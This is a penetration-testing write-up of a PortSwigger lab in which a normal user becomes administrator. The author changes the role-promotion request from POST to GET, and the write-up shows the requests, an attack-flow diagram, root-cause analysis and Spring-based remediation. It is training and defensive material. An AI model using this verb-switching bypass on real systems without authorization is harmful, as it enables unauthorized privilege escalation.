


# Lab 11 — Method-Based Access Control Can Be Circumvented

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Access Control
- **Lab:** Method-based access control can be circumvented
- **Difficulty:** Practitioner
- **Vulnerability:** Broken Access Control / Method-Based Access Control Bypass
- **Privilege Escalation:** Vertical (Normal User to Administrator)
- **Status:** Solved

---

## Objective

Log in as the normal user `wiener` and exploit the flawed access controls to promote the account to administrator.

The lab provides the following credentials:

```text
Administrator:
Username: administrator
Password: admin

Normal user:
Username: wiener
Password: peter
```

---

## Reconnaissance

I first logged in using the administrator credentials (`administrator:admin`) to analyze how legitimate user promotion requests were handled.

The administrative dashboard at `/admin` provided functionality to promote or demote user roles.

When promoting the user `carlos`, Burp Suite captured the following HTTP request:

```http
POST /admin-roles HTTP/2
Host: [LAB-DOMAIN]
Cookie: session=[ADMIN-SESSION-COOKIE]
Content-Type: application/x-www-form-urlencoded

username=carlos&action=upgrade
```

The server responded with:

```http
HTTP/2 302 Found
Location: /admin
```



This established the expected baseline behavior for administrative role changes using `POST`.

---

## Testing HTTP Method Substitution

The lab description indicated that access-control rules were tied specifically to the HTTP method.

In Burp Repeater, I tested changing the HTTP request method from `POST` to `GET`, converting the body parameters into URL query parameters:

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: [LAB-DOMAIN]
Cookie: session=[ADMIN-SESSION-COOKIE]
```

The administrator session still received:

```http
HTTP/2 302 Found
Location: /admin
```

This confirmed that the back-end application framework supported executing administrative role changes over both `POST` and `GET` requests.

---

## Exploiting the Access Control Discrepancy

Next, I logged out of the administrator account and logged in with the normal user credentials (`wiener:peter`).

Using Wiener's authenticated session cookie, I sent the `GET` promotion request and specified `username=wiener`:

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: [LAB-DOMAIN]
Cookie: session=[WIENER-SESSION-COOKIE]
```

The server responded with:

```http
HTTP/2 302 Found
Location: /admin
```

The request was accepted and executed even though Wiener was not originally an administrator. The access-control mechanism failed to enforce role checks on `GET` requests to `/admin-roles`.


---

## Privilege Escalation & Verification

The successful request promoted Wiener to administrator.

I then accessed `/admin` using Wiener's session and confirmed that the account now had full administrator access and management functionality.

The lab registered as successfully solved.



---

## Vulnerability Analysis

The vulnerability is a **Method-Based Access Control Bypass** caused by inconsistent authorization enforcement across HTTP methods.

### Root Cause
1. **Method-Specific Access Control Rules:** The access-control filter or middleware was configured only to restrict `POST /admin-roles` to administrators, while leaving `GET /admin-roles` unprotected or subject to relaxed authorization checks.
2. **Framework Method Agnosticism:** The underlying controller action handled both `GET` and `POST` interchangeably (e.g., route handlers matching without HTTP verb constraints), executing the privileged state-changing operation when reached via `GET`.

```text
POST /admin-roles  ──> [ Access Control Filter ] ──> Evaluates Admin Role ──> Restricted to Admins
GET /admin-roles   ──> [ Access Control Filter ] ──> Rule Not Applied   ──> Forwards to Handler ──> Promotes User!
```

---

## Attack Flow

```text
[ Attacker / Normal User ]
          │
          │ 1. Observe Admin Promotion: POST /admin-roles (username=carlos&action=upgrade)
          │
          │ 2. Test Alternative Method: GET /admin-roles?username=carlos&action=upgrade (Accepted)
          │
          │ 3. Log In as Low-Privileged User (wiener)
          │
          │ 4. Send Crafted GET Request:
          │    GET /admin-roles?username=wiener&action=upgrade
          │    Cookie: session=[WIENER-SESSION]
          │         │
          │         ▼
          │    [ Access-Control Layer ]
          │    (Rule only guards POST; permits GET)
          │         │
          │         ▼
          │    [ Application Controller ]
          │    (Processes role upgrade for 'wiener')
          │         │
          │         ▼
          │    302 Redirect to /admin
          │
          │ 5. Access /admin as Wiener (Administrator Privileges Confirmed)
          ▼
    [ Lab Solved ]
```

---

## Impact

An unauthenticated or low-privileged user can bypass authorization controls and promote their own account to administrator, resulting in **Vertical Privilege Escalation**:

```text
Low-Privilege User (wiener) ──[ GET /admin-roles ]──> Full Administrator
```

In real-world environments, method-based access-control flaws can allow unauthorized users to:
- Escalate account privileges to superuser / administrator.
- Perform privileged actions such as modifying user roles, changing account permissions, or deleting records.
- Modify application settings and security configurations.
- Trigger state-changing actions via Cross-Site Request Forgery (CSRF) if the action is reachable via `GET`.

---

## Remediation

### 1. Enforce Consistent Authorization Regardless of Method
Authorization checks must evaluate the user's role and permission for the requested resource and operation, regardless of the HTTP method used.

```text
Incoming Request
       ↓
Identify Authenticated User & Role
       ↓
Check Permissions for Requested Action (Role Promotion)
       ├── Is Admin? ──> Allow Execution
       └── Not Admin ──> Deny (403 Forbidden)
```

### 2. Strictly Enforce Allowed HTTP Methods
Endpoints that perform state-changing actions should strictly accept only appropriate HTTP methods (e.g., `POST`, `PUT`, `DELETE`) and reject unexpected verbs with `405 Method Not Allowed`.

```java
// Restrict method explicitly in controller
@PostMapping("/admin-roles")
public ResponseEntity<?> updateRoles(...) { ... }
```

### 3. Apply Comprehensive Security Filter Rules
Security configurations (e.g., Spring Security, ASP.NET authorization policies) should protect URLs across all HTTP verbs by default:

```java
// Protect endpoint across ALL HTTP methods
http.authorizeRequests()
    .antMatchers("/admin-roles").hasRole("ADMIN");
```

---

## Key Takeaways

1. **Authorization Must Not Depend on HTTP Verbs:** A security filter guarding only `POST` leaves alternative methods like `GET`, `PUT`, or `HEAD` vulnerable.
2. **Framework Flexibility Can Introduce Risk:** Frameworks that map generic request handlers to multiple HTTP methods can unintentionally expose state-changing operations to unexpected verbs.
3. **State-Changing Actions via GET:** Allowing state changes over `GET` violates REST principles and increases exposure to both access control bypasses and CSRF attacks.
4. **Method Fuzzing in Web Penetration Testing:** Whenever a protected endpoint is discovered, test alternate HTTP methods (`GET`, `POST`, `PUT`, `DELETE`, `PATCH`, `OPTIONS`, `HEAD`) to evaluate authorization parity.
5. **Defense in Depth:** Enforce role-based access control at the controller/service layer in addition to URL-matching perimeter filters.
